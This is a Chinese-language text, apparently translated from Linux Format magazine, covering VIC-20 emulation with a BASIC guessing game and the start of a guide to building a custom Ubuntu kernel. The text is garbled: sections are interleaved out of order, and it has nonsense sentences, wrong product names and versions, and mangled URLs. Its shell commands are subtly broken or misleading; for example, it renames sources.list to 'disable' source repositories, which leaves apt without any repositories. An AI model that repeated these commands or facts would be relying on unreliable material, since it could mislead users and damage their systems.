vice -kern vic-kernel.kern -basic vic-basic.bin -crt vic-chargen.crt
```

几秒钟后，我们就能看到 CBM BASIC V2 的浅蓝色 BASIC 解释器，以及 3,583 字节的 RAM。

### 专家介绍
Les Pounder 是 Tom's Hardware 的副编辑，也是一名自由创客。他在 bigdet.is 上撰写关于黑客技巧和十六进制的博客。

### 快速提示
VICE 拥有智能选项；通过 Swift Attach，我们可以让 VICE 启动一个文件，无论是 BASIC 程序、磁带、磁盘还是卡带镜像，VICE 都会自动检测并加载该镜像。

### Commodore BASIC

### 回到 BASIC

好了，让我们来活动一下 BASIC 编程的肌肉。我们已经在许多不同的机器上尝试过多次，但我们一如既往地从 10 PRINT 项目开始。这个项目的每一行 BASIC 代码都将以一个数字开头，如 10, 20, 30 等。这让解释器能够对代码进行排序；它按升序从一行跳到下一行。但我们为什么要这样做？如果我们插入了一个错误并搞乱了代码，我们可以通过插入其他行而无需破坏原始代码。让我们用 10 PRINT 项目来演示这一点。

```basic
10 PRINT "HELLO WORLD"
20 GOTO 10
```

如果我们运行（RUN）这段代码，它将不断打印 "HELLO WORLD" 并永远运行下去。在键盘上按下 Ctrl+C 以中断运行的代码。但如果我想添加另一行怎么办？如果我们使用连续数字，就很难在 10 和 20 之间插入一行。通过预留间隙，我们在扩展或修复 Bug 时有了更多选择。

```basic
10 PRINT "HELLO WORLD"
15 PRINT "LZ ROULX"
20 GOTO 10
```

现在运行这段代码，你会看到屏幕上交替出现 "HELLO WORLD" 和 "LZ ROULX"。按下 Ctrl+C 停止代码。

本期的项目是一个经典的数字猜谜游戏。计算机随机生成一个 1 到 20 之间的数字，将其保存到变量中，然后要求用户猜测该数字。如果猜测值较低或较高，代码会引导玩家找到正确的数字。

我们从第 10 行开始编写代码，在这里创建变量 X。在 X 中，我们存储一个 1 到 20 之间的随机整数（INT）。

```basic
10 X=INT(RND(1)*20)+1
```

这是 Bug 的开始。第 15 行打印存储在 X 中的整数。在真正的游戏中，我们会省略这一行。

```basic
15 PRINT X
```

现在，我们使用 "PRINT" 让用户知道计算机已经选好了一个数字。

```basic
20 PRINT "I'VE THOUGHT OF A NUMBER BETWEEN 1 AND 20, CAN YOU GUESS IT?"
```

我们的 BASIC 项目代码看起来可能有点凌乱，但我们仅有 22 列和 23 行（176x104 像素）可供使用。

为了获取玩家的猜测，我们使用 INPUT，你可能会注意到其语法与 C64 BASIC 完全相同——这有助于意识到 C64 才是我们的最终目标。INPUT 命令要求用户输入一个值并将其保存到新变量中。

```basic
30 INPUT "WHAT IS YOUR GUESS?"; A
```

这一行构成了条件测试。计算机将存储在 A 中的猜测值与存储在 X 中的数字进行比较。如果猜测太低，则 GOTO 将玩家发送到第 80 行。如果猜测比计算机选的数高，则跳转到第 120 行。如果正确，游戏结束。

```basic
40 IF A < X THEN GOTO 80
50 IF A > X THEN GOTO 120
60 IF A = X THEN GOTO 200
```

第 80 行用于处理猜测太低的情况，因此代码告诉我们 "HIGHER"（更高）。然后第 90 行将我们送回第 30 行重新尝试。

```basic
80 PRINT "HIGHER"
90 GOTO 30
```

当我们猜得太高时，第 120 行会被激活。

> 快速提示
如果你想用 USB 操纵杆玩游戏，请检查 Settings > Input devices 并配置操纵杆。这样控制 Omega Race 和 Radar Rail Race 就容易得多。

### 在... Windows 上模拟 VIC-20？

“在 Windows 上！！”我们听到了你的惊呼。我们知道 Windows 并不是 Linux Format 的关注重点，但请听我解释。对于那些准备跃迁到 Linux（也许 Windows 11 会逼你这么做）并想模拟 Commodore 机器的人来说，有一个绝佳的替代方案。

来自 Cloanto 的 www.c64forever.com 是一个一体化软件包，可以模拟 VIC-20 以及各种型号的 Commodore PET, Commodore 16, Plus/4 和 Commodore 128。该软件包合法地提供了所有配置和 ROM。c64forever 采用了清晰的用户界面，允许你配置系统，它甚至提供了一系列流行的游戏和演示。

此外还有 AmigaForever，它几乎可以模拟每一种不同的 Amiga 机器。如果 C64Forever 和 AmigaForever 安装在同一台机器上，它们将集成到一个应用程序中。

使用 C64Forever，我们可以模拟一个具备所有功能的 VIC-20：磁盘驱动器、卡带等等。我们还可以保存机器状态，并将一些数据保存到虚拟磁盘中。如果你有自己的游戏，那么你就可以准备好用它来玩了。

当然，我们可以用 VICE 来模拟我们心爱的 VIC-20，但如果你并不想深钻配置文件，而只是想玩一把 Omega Race，那么这个解决方案可能最适合你。


在屏幕上打印 "LOWERS"，然后第 130 行将我们送回第 30 行，再次尝试。

```
120 PRINT "LOWER"
130 GOTO 30
```

第 200 行，我们可以通过正确猜测，或者因为忘记省略第 15 行（调试行）而到达这里。第 200 行和 300 行的 PRINT 语句会祝贺玩家并结束游戏。然而，我们的代码直到第 310 行才结束：

```
200 PRINT "CORRECT, YOU WIN"
300 PRINT "GAME OVER"
310 END
```

要开始游戏，请输入 RUN 并按下 ENTER。游戏将开始，你必须正确猜测才能结束游戏。

BASIC 是一门伟大的语言。Python、Javascript 和 Ruby 一直延续到了 21 世纪，但在 20 世纪相当长的一段时间里，BASIC 是大多数卧室编程者（bedroom-based coders）的首选（GOTO，哈哈，这里打住 - 编辑注）语言。

BASIC 代码将循环运行，直到我们猜对数字。只要记得不要将 VIC-20 的猜测结果打印到屏幕上！

### 玩游戏

VIC-20 拥有大量优秀游戏的眷顾。从绝佳的街机移植版《Galaxian》和《Donkey Kong》，到来自 Llamasoft 的精妙之作《Laser Zone》。



让你简直挑花眼！

在真实的 VIC-20 上加载游戏是通过（在可能的情况下）磁带、卡带或软盘（VIC-1540）实现的。磁带在 20 世纪 80 年代既便宜又充足，因此我们将零用钱花在由卧室编程者创作的廉价游戏上。磁带的问题在于有时无法加载。卡带比磁带更快、更可靠，但价格贵得多。卡带可以瞬间将你带入未来的体验中。

最昂贵的选项是软盘。它在高级用户（通常情况下）中很流行，在美国非常受欢迎。软盘比卡带快得多，但实际上并不比卡带快多少（注：此处原文逻辑略有矛盾）。软盘比卡带便宜，但你必须为驱动器买单，而驱动器的价格和尺寸与 VIC-20 几乎一样。

那么，我们如何在现代的真实设备上使用 80 年代的 ROM 呢？为了快速实现，我们可以进入 File–Smart Attach 并选择文件。这将触发 VIC-20 加载以附加该文件。如果这不起作用，请点击 File–Attach 并选择格式（例如：disk, tape, cartridge）。从哪里开始？请将列表中的 ROM 作为读者的练习。

### Demoscene（演示场景）

系好你的霓虹色袜子——VIC-20 的 demoscene 简直太棒了！我们寻找了一个该场景的绝佳示例，找到了 2007 年的 ORB: OMG ORB MEGADRIVE。这个 demo 使用了巨大的 SEG 边缘片段，展示了 VIC-20 像咒语一样神奇的 5MO 精灵块（sprites）的力量。在 Motorola 的视角中，特定屏幕尺寸的精灵块在屏幕上变换和融合。受 Victory Bay 泛滥的光影效果启发而设计的视觉效果显示，是以最美妙的方式对感官的一次冲击。我们最喜欢的部分是 Bump Pixel Vision。拼凑的亮像素构成了巨大的纹理，看起来在屏幕上滚动。但我们也听到了驱动动画向前的低沉嗡鸣声。

其他 demo 也有很棒的音乐，但这个最吸引我们的耳朵。该 demo 可以从 https://www.csor.org/productions/9193/ 下载，或者你可以观看 YouTube 视频 https://youtu.be/pBBSgnvQNEcG 来体验一下。

### 今天的 VIC-20 社区

得益于一个庞大且充满激情的复古社区，VIC-20 在 21 世纪依然充满活力。我们可以轻松地模拟这台机器，甚至一个 25 英镑的 Raspberry Pi Zero 也能做到。但也许你想要完整的 VIC-20 体验，包括那个带边框的外壳？一个带有键盘的全尺寸面包板单元 The VIC-20 (retrogames.be/theVIC20) 售价约为 100 英镑。在经典的真实外壳内部是一个 Linux SBC（单板计算机），它可以运行提供的 64 款游戏中的任何一款，或者你也可以提供自己的磁盘/卡带/磁带镜像。这个套件看起来几乎和原装外壳一模一样，但多了几个端口——我们得到了 USB 接口。设备还附带 BASIC 解释器，方便尝试本期中的代码。The VIC-20 的所有者还可以玩 C64 游戏，因为这台机器兼具 C64 的功能。而 C64 的所有者现在也可以在他们的机器上运行 VIC-20 游戏。

如果你拥有真实硬件，那么 The Future Was 8-bit (www.thefuturewas8bit.com) 有许多新的卡带游戏和 SD2IEC 软盘驱动器模拟器，我们可以从中加载游戏。


*ORB: OMG - ORB MEGADEMO 发布于 2007 年，极好地展示了 VIC-20 的能力。巨大的、大胆的精灵和强劲的低音线！*


*如果你不确定你的游戏是在磁带、磁盘还是卡带上，那么 VIC-2 的智能附加（smart attach）功能可以迅速解决问题，并贴心地显示游戏的菜单。*

如果你想要硬件，价格波动较大。有一天，可能因为某家公司破产而变得极其便宜，但这并非长期的趋势。花大约 100 英镑你可以买到一个维护良好的系统，但记得买一个现代的电源，因为旧的 Commodore PSU 容易爆炸并毁掉不小心使用的机器。原装盒装的 Commodore/VIC-1570 软盘驱动器可能需要 150 英镑左右。

### VIC-20 的遗产

VIC-20 是第一台在美国销量突破百万台的计算机，但它被更强大的 Commodore 64 取代了。1985 年 VIC-20 停产，但它一直留在许多粉丝心中。Commodore 在 20 世纪 80 年代的统治力是绝对的，VIC-20 分得了一部分光荣。就像第二次世界大战中的 Spitfire 战斗机一样，VIC-20 是 Hurricane：古老、可靠，且能毫不费力地完成任务（对于美国的读者来说，这大概就像 P-38 Lightning 之于 P-51 Mustang？- 编辑注）。好好保存你的 VIC-20——随着年岁增长，它们正变得越来越稀有。

> **快速提示**
>
> VIC-2 可以模拟多台 Commodore 机器。在试用该系列的过程中，我们用它模拟了 C64 和 PET。你只需要所选系统的各种 ROM 和配置，就可以准备好重温 20 世纪了。


*这个在线 VIC-20 模拟器绝对是一个信息宝库和复古乐趣之源。*

### » 获取更多米色旧物... 现在订阅 http://bit.ly/LinuxFormat

### ➡ JAVASCRIPT 模拟

在每一个复古专题中，我们都惊讶于 JavaScript——没错，就是那个让网站变得更华丽的语言——竟然可以被用来模拟旧硬件。VIC-20 有自己的 JavaScript 模拟器，我们在 https://vvic20.netlify.app/en/Chrome/VIC20.php 找到了它，这是一个功能齐全的模拟器。乍一看它显得相当简陋，但点击 VIC-20 屏幕，我们就会进入全屏模式并开始编写 BASIC 代码。

写代码写腻了？你可以通过存储菜单加载音频游戏。这里有一系列准备就绪的游戏，或者如果你愿意，可以通过 URL 加载游戏。试着点击磁带播放器——这是一个从 URL 模拟器加载最新 demo 的快捷方式。这个 websocket 太棒了！我们可以完全控制我们的虚拟 VIC-20。我们可以配置 RAM、型号（PAL, NTSC Japanese 和 VIC-1001）并设置 VIC-20 的速度（100% 或不限速）。

如果你是一个 VIC-20 爱好者，那么这个模拟器的 Reference 章节简直是 6502 数据表、维修指南、终端和手册的救星。甚至还有 PETSCI 代码。一个 Commodore 粉丝维持爱好所需的一切应有尽有。对于想要完整获取文件的 VIC-20 粉丝来说，这个模拟器是一个极佳的资源。

### 构建内核

内核是让 Linux 运转的核心。Jonni Bidwell 很乐意亲力亲为，帮助你调校这些运转机制...



如果你想在定义上极其精准的话，Linux 并不是一个完整的操作系统。它仅仅是一个内核。就像种子荚的内核一样，它包裹住周围所有部分使其发挥作用。

引导加载程序（bootloader）可以在没有指定 init 系统的情况下愉快地加载 Linux 内核，它就那样在没有支持的情况下停在那里，直到某些应用程序（例如，首先是 systemd）告诉内核该做什么，或者它将简单地处于空闲状态。然而，它具有做任何事情的潜力。内核包括你认为的所有操作系统底层组件，以及一些你认为应该属于其他地方的东西。这包括驱动程序、文件系统、网络协议、调度器、进程（和 I/O）内存分配器以及各种其他宝藏。

在 Linux 的早期，用户经常不得不面对自行编译内核，以获得必要的硬件支持，有时是为了通过重新配置摆脱崩溃，有时是为了提高性能。Linux From Scratch 或 Gentoo 的用户会对内核编译过程非常熟悉，因为在那里这几乎是强制性的。但对于任何版本的 Linux 来说，这都是一个选项，所以我们认为可以尝试让构建内核变得更简单易行。

我们将发现，Linux 内核规模巨大且复杂。有些人可能会倾向于用细齿梳一样仔细地研究它，试图在速度或体积上对其进行“优化”，但这是一条充满艰辛的道路。在大多数情况下，这更有可能导致损坏而非其他结果。如果你想要一个更快、响应更灵敏的内核，那么更好的方法是使用现有的许多自定义版本。


### 掌握内核基础

### 究竟什么是内核，为什么它在指挥我的计算机工作？



当你想到操作系统（OS）时，它应该是一个统称，用于指代在 BIOS/UEFI 将控制权移交给引导加载程序（bootloader）之后，负责计算机所有运行事项的那个“东西”。对于 Windows 和 macOS 这样流行的系统，人们很容易将所有内容混为一谈：内核就是全部。在这种系统中，你无法选择桌面环境，没有启动到（真正的）命令行界面的选项，也没有办法替换核心应用程序（如 Explorer 和 Finder）。而在 Linux 上，事情的模块化程度则清晰得多：你可以从 UEFI 直接启动进入内核，登录屏幕的界限更为明确。如果你反应足够快，甚至能识别出内核将控制权移交给初始化系统（例如 systemd 或 OpenRC runit）的那一刻。然而，归根结底，每个操作系统都有一个内核。

关于 macOS 基于 BSD 的说法（由苹果公司以及那些喜欢声称自己的操作系统“更成熟”的 Mac 用户所延续）源于它所基于的 Darwin OS。Darwin 是开源的且部分基于 BSD，但它也借鉴了其他操作系统（尤其是苹果在 1997 年开发的 Mach/XNU）。Darwin 拥有自己的内核，称为 XNU（“X is Not Unix”的缩写），而 Linux 和 Unix 是单体架构，与之相对，XNU 是混合架构。它基于 Mach 微内核，将一些 BSD 概念投影到微内核中，并增加了 BSD 功能（即所谓的“非基于 BSD”内核）。macOS 更华丽的层级，如 Aqua GUI、Cocoa/Carbon 接口和各种应用服务，全部是私有的，与 BSD 无关。

内核是一个模块化的杰作，它可以运行从老派的 2D 图形到大型强子对撞机的一切设备。

#### 驱动协议

XNU 内核拥有自己的驱动程序 API 称为 IOKit，而 Windows 内核则有一个缺乏想象力的名称——“Windows 驱动模型（Windows Driver Model）”。驱动程序（与硬件通信的程序）可能是内核中最“脏”的组件（这也是为什么编写它们如此困难的原因）。但很容易理解为什么它们会如此。唯一的问题是，大多数现代 Linux 发行版在内核中内置的驱动程序非常少。相反，更推荐的方法是将它们作为编译好的模块（二进制文件）包含在内，这些模块在启动早期由 Udev 在检测到相应硬件时加载。模块直接插入内核，在大部分情况下就像是内核的一部分一样工作。其他内核组件也可以被“模块化”并按需加载，但某些底层系统（例如最初用于加载模块的系统）必须内置在内核中。

因此，最终，内核包含了 Linux 支持的几乎每一块硬件。嗯，几乎。现代硬件（尤其是 Wi-Fi 和 GPU）通常要求在每次启动时向其上传固件，否则将无法工作。这些固件通常不包含在发行版的内核源码包中（因为它们不是源代码且有时是私有的），而是通过单独的 `linux-firmware` 包提供。由于该包是内核中所有驱动程序（通常打包为 `linux-image-...`）所必需的，我们不能忽略它的体积（在我们的系统中 `lib/firmware` 占据了 700MB 以上）。相反，驱动程序本身占据的空间相当可以忽略不计（详见第 36 页的方框）。

### 主线版本（MAINLINING）

在下一页我们将尝试编译一个经过轻微修改的 Ubuntu 内核。Canonical 会为其内核应用补丁和后向移植的修复，这意味着一个版本号为 5.13.0.50 的 Ubuntu 内核（我们通过在 Ubuntu 20.04 虚拟机上运行 `uname -r` 获得）在结构上可能与你从 https://kernel.org 下载的 5.13 “主线（mainline）”内核大不相同。如果你发现一个 Bug 已经在上游被修复（或者你认为 Ubuntu 的某个补丁引入了该 Bug），你可能想要构建自己的内核。这很简单：只需解压源码树并按照下一页的指令操作即可。

当然，你也可以坚持使用 Ubuntu 团队提供的预打包主线内核。首先阅读 https://wiki.ubuntu.com/Kernel/MainlineBuilds 上的说明，然后点击其中的链接进入主线内核存档（Mainline Kernel Archive）。你会发现，虽然 Ubuntu 20.12 和 LTS 版本更新到了最新的长期支持（LTS）内核（当前为 5.13），但当前的开发系列（令人困惑地也被称为“mainline”）是 5.15。我们建议初学者不要尝试这些发布候选（RC）内核。但你可能有理由尝试 Longterm 分支，当前版本为 5.10。目前，Ubuntu 的 ‘Pop!_OS’ 使用该分支，并且它是 Ubuntu 下一个 LTS 版本的基石。



在 https://kernel.org 可以找到各种内核，从最前沿的 RC 版本到 LTS 4.4 系列。

### 编译内核

### 直接进入正题，构建你自己的类 Ubuntu 内核。

要在 Ubuntu（或任何使用 Ubuntu 内核的发行版，例如 Mint, elementary OS，但不包括 Pop!_OS）中编译自己的内核，第一步是获取内核源码。

如果你追求原汁原味，原版内核源码在 https://kernel.org，但这不一定是最佳起点。相反，我们使用 Ubuntu 内核，它包含大量补丁和驱动，更重要的是，它带来的配置与你当前运行的配置非常接近（如果你拥有某些版本，则不完全相同），因此如果我们仅进行微小更改，生成的内核仍将保留旧内核的所有功能。

除了内核源码，我们还需要必要的构建工具。如果你之前编译过任何东西，可能已经拥有这些工具，但为了保险起见，你可以从以下命令开始：

```bash
sudo apt update && sudo apt install linux-image-$(uname -r)
```

像这样使用 `uname` 可以确保你即将下载的构建工具与你在修改前该系统运行的内核相对应。但你可能需要重启（以防通过更新安装了新内核），然后再获取构建工具（以及构建内核源码）。如果你运气不好，可能会遇到无法找到源码包的警告。你可能需要取消 `/etc/apt/sources.list` 中以 `deb-src` 开头的行的注释，以启用下载和更新仓库。或者，既然我们在这个问题中稍微带点 Perl 的风格，这段小程序可以帮你完成：

```bash
sudo perl -pe "s/^# (deb-src.*)/\$1/" /etc/apt/sources.list
```

这些依赖项非常多（包括 Java 和 LaTeX，但我们的故事不需要写那么长）。（可选更新的）Ubuntu Wiki 网站 https://wiki.ubuntu.com/Kernel/BuildOwnKernel 提到，之前的命令并没有安装所有必需的组件。这个说法依然正确。Wiki 没有具体说没安装什么，但如果你有耐心，你会发现缺少了：

```bash
sudo apt install ubuntu-flavours-dev kernelroot-package
```

包维护者的版本。无论如何，让我们获取这些源码：

```bash
apt source linux-image-unsigned-$(uname -r)
```

如果你运行的是 HWE 内核（如果你运行的是最新的 Ubuntu 22.04 桌面版，大概率如此），源码将落在 `linux-hwe-5.13.0` 目录下。你还会被告知 HWE 内核仍在开发中，可以通过以下方式获取更先进的源码：

```bash
git clone git://git.launchpad.net/~ubuntu-kernel/ ubuntu-kernel/ ubuntu-source/linux-hwe-5.13/local
```

一旦完成此操作并获得了源码，我们不妨禁用源码仓库。如果你之前使用了 Perl 命令，可以通过以下方式禁用：

```bash
sudo mv /etc/apt/sources.list /etc/apt/sources.list.bak
```

本质上，`apt source` 命令可以获取 Ubuntu（或任何基于 apt 的发行版）中任何包的源代码。我们在 `apt` 命令中没有使用 `sudo`，因为源码被下载到当前目录，而我们已经仔细确保当前目录是主目录。完整的内核源码体积很大（Ubuntu 21.10 为 1.2GB），如果空间不足，`apt` 将失败。如果发生这种情况，你需要将主目录中的 `linux-hwe-files` 文件夹移至空间充足的地方再试。

### 编译时间

成功下载源码后，让我们对其进行配置和编译。在配置 Linux 内核时，你可以自由地排除或包含任何你想要的组件。传统上，这是通过运行 `make menuconfig` 进入一个辉煌的文本菜单来完成的。时代在进步，现在有了其他方式来运行 `make menuconfig`。不过别太激动，它依然是基于文本的，只不过现在由 ncurses 驱动，并拥有黑客风格的黑色背景。用以下命令召唤它：

```bash
cd linux-hwe-5.13-S13.0/
make menuconfig
```

看到了吗？太辉煌了。使用方向键和 Enter 键在菜单中导航。使用空格键（y/n/m）选择或取消选择（或将其选为模块）。如果你更改了任何内容，可以通过退出保存选项；按下 Escape 键则不保存退出（但可以用最后一个命令再次返回）。现在，让我们来看看你的内核里有什么。



将压缩方式从 ZSTD 切换到 LZ4 缩短了我们在虚拟机上加载内核的时间，尽管提升幅度并不显著。


> 编译内核会让你的 CPU 全速运转。笔记本电脑用户请注意（通常情况下，提交副本迟到是没有理由的！—— Ed）。

你可能还记得，使用 ZSTD 压缩在 Ubuntu 20.04 中已成为默认设置。

我们可以通过点击并按下 F2 来了解某个特定选项的更多信息。完成后，让我们看看在某些已知条件下，哪种压缩选项最适合我们的内核。让我们切换到 LZ4 压缩，看看能否发现差异。

它打破了一个令人惊讶的字符串，这里需要一个值。请注意，这一点在任何地方都没有详细记载。最后，让我们开始构建：

```bash
#### fakeroot make-kpkg -j "$(nproc)" -jinitrd -append-to-kernel-image "kernel-image kernel-headers"
```

现在去泡杯茶吧，因为 Ubuntu 的标准内核经过了相当充分的调整。你会看到功能在被编译、链接和镜像时被列出。观看这个过程相当令人愉悦，但你可能还需要另一杯茶。在我们的 MSP13 上，这花掉了大部分午休时间（谁说你可以午休一小时？！—— Ed）才完成，期间我们漫无目的地思考着关于未来塔楼的琐事。即使在 CodeCounty，阻力系数也是随机因素。在所有步骤完成后，你会在主目录（即根目录）中看到两个 deb 软件包：一个包含内核镜像，另一个包含头文件。后者为了我们的研究目的，仅被进行了极微小的修改（即仅更改了压缩格式）。这样做是有充分理由的。

这些软件包将替换系统中当前的内核软件包。这应该不是问题，因为 Ubuntu 始终准备有一个备用内核，但我们并不希望在内核恐慌（kernel panic）中进一步进行我们的实验。你可以通过以下方式看看 sudo 的表现：

### 查看 SLAB 中有什么

如果你喜欢听起来古怪的抽象概念，你可能会喜欢看看“选择 SLAB 压缩”菜单（位于通用设置菜单的底部）。在你被拖入内核选项的深层迷宫之前，请按下 F9 退出并确保保存配置。但如果你决定一头扎进去，这里有一个提示：

使用 Ubuntu 内核的一个小怪癖是，它默认配置为使用 Canonical 的受信任内核密钥（Trusted Kernel Keys）。由于这些密钥不包含在内核镜像中，除非你进行一点干预，否则会看到一些错误。我们可以手动禁用这些密钥（它们在加密服务菜单中），方法如下，或者我们可以使用便捷的 Debian 脚本：

```bash
#### script/config-set TRUSTED_LOCATIONS_KEYS
#### script/config-set TRUSTED_KEYS
```

这会将它们设置为空字符串。配置支持还包含一个 `disable` 参数，但你必须使用它：

```bash
#### sudo dpkg -i linux-image*.deb
```

内核应该被安装为 Grub 的新默认项。重启后使用 `uname -r` 命令检查，如有必要，在启动期间按住 Shift 键手动运行。

### COLON KURT 分发所有箭头...

使用 Ubuntu（技术上是 Debian）工具构建内核是非常好的。但如果你只是为了个人使用而随意折腾内核，你可能不想在打包上浪费时间。而且，像我们这样操作并用自定义包替换当前内核包确实不方便，因为一旦 Ubuntu 发布新内核，这些包就会被覆盖。不建议在生产环境下运行，否则很可能会导致系统崩溃。

相反，你可以使用任何其他类型的框架。你可以使用主线打包工具构建内核而无需担心打包问题。你可以在源码目录下运行 `make menuconfig` 来使用（现代的）ncurses 配置器。然后，运行 `make` 来构建，并运行 `sudo make modules_install` 来安装模块。最后，你需要使用 `sudo make install` 将内核镜像复制到 /boot。

我们说完了吗？还没——我们仍需要运行 `sudo depmod` 来枚举模块，然后（最终）使用 `sudo update-grub` 更新 grub。

> 如果你喜欢无尽的选项、设置和配置文件，且所有这些都排列在 ncurses 的漫长过程中，那么你会爱上这个。

### 内核精简

完美不是当你没有什么可以添加的时候，而是当你没有什么可以去掉的时候……

到这一步，你可能已经浏览了配置菜单，并注意到其中有大量你不需要的东西。这大概是真的，很多人都对缩小内核体积感兴趣。

为嵌入式系统构建的人员（存储空间和内存稀缺）自然希望尽可能多地剔除内核中的内容。我们提到过，将这么多未使用的驱动程序编译为模块并不会对性能或内存产生实际影响。然而，它会占用磁盘空间。

乍一看，内核中有很多多余的驱动程序。但当你需要磁带访问时，你还是需要一些的……尽管可能没有你想象的那么多（见下框）。

Linux-libre 内核证明了剔除内容的另一个原因。在这里，所有需要专有固件或微代码的驱动程序都被移除了。由于固件和微代码的体积巨大，如果你查看 `/lib/firmware` 目录（我们的超过 700MB），删除它们可以节省大量空间。当然，删除固件文件应谨慎进行，因为它们对特定硬件功能的依赖程度不同。此外，还有一个令人恼火的问题：你小心翼翼地删除了不必要的文件，结果一个新的 `linux-firmware` 包出现了，不仅替换了它们，还增加了更多不必要的文件。

### 识别多余的固件

根据你的硬件，识别哪些固件文件是必需的，或者至少识别哪些是不需要的，可能会很简单。例如，如果你没有 AMD 显卡，可以删除 `/lib/firmware/amdgpu` 中的 `amdgpu` 固件，或者对于旧卡，删除 `/lib/firmware/radeon` 中的 `amdgpu` 部分。Nouveau 驱动（Nvidia 显卡的开源实现）也有少量体积占用，但在现阶段实在不值得担心。

为了更好地了解系统中加载了哪些固件，请运行 `journalctl -b` 查看当前启动的日志。按下 `/` 进行搜索。

### 驱动程序占用

